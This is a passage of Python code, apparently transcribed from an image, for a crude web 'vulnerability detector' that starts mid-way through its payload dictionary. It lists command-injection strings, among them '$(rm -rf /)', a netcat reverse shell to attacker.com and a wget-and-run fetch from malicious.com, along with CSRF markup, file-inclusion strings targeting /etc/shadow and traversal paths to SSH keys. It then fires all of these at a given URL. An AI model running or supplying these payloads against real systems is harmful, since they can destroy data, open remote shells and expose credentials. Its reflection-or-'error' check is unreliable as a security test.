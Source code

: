 ```python
            "; ls", 
            "| whoami", 
            "&& cat /etc/passwd", 
            "|| ps aux", 
            "`id`", 
            "$(uname -a)", 
            "$(echo vulnerable)", 
            "$(rm -rf /)", 
            "&& nc -e /bin/bash attacker.com 1234", 
            "| wget http://malicious.com -O exploit.sh; bash exploit.sh"
        ],
        "csrf": [
            '<form action="/vulnerable_endpoint" method="POST"><input type="hidden" name="amount" value="1000"><input type="submit"></form>', 
            '<iframe src="http://vulnerable-site.com/transfer?amount=1000"></iframe>', 
            '<img src="http://vulnerable-site.com/transfer?amount=1000">',
            '<script>fetch("http://vulnerable-site.com/transfer", {method: "POST", body: "amount=1000"});</script>', 
            '<link rel="stylesheet" href="http://vulnerable-site.com/transfer?amount=1000">'
        ],
        "file_inclusion": [
            "../../../../etc/passwd", 
            "../../../../../var/www/html/index.php", 
            "../../../../windows/system32/drivers/etc/hosts", 
            "/etc/passwd", 
            "/proc/self/environ", 
            "file:///etc/shadow", 
            "php://filter/read=convert.base64-encode/resource=index.php", 
            "zip://path/to/zipfile#file.txt", 
            "data://text/plain;base64,SGVsbG8=", 
            "expect://id"
        ],
        "directory_traversal": [
            "../", 
            "../../", 
            "../../../", 
            "../../../../", 
            "../../../../etc/passwd", 
            "../../../../var/log/", 
            "../../../../windows/system32/", 
            "../../../../usr/bin/", 
            "../../../../boot.ini", 
            "../../../../.ssh/id_rsa"
        ]
    }

    vulnerabilities = {}
    for test_type, payloads in test_cases.items():
        for payload in payloads:
            try:
                response = requests.get(url, params={"input": payload}, timeout=5)
                if payload in response.text or "error" in response.text.lower() or "exception" in response.text.lower():
                    vulnerabilities[test_type] = f"Vulnerable with payload: {payload}"
                    break
            except Exception as e:
                vulnerabilities[test_type] = f"Error during testing: {e}"
    return vulnerabilities

# Example usage
vulns = detect_vulnerabilities("http://example.com/test")
print("Detected Vulnerabilities:", vulns)
```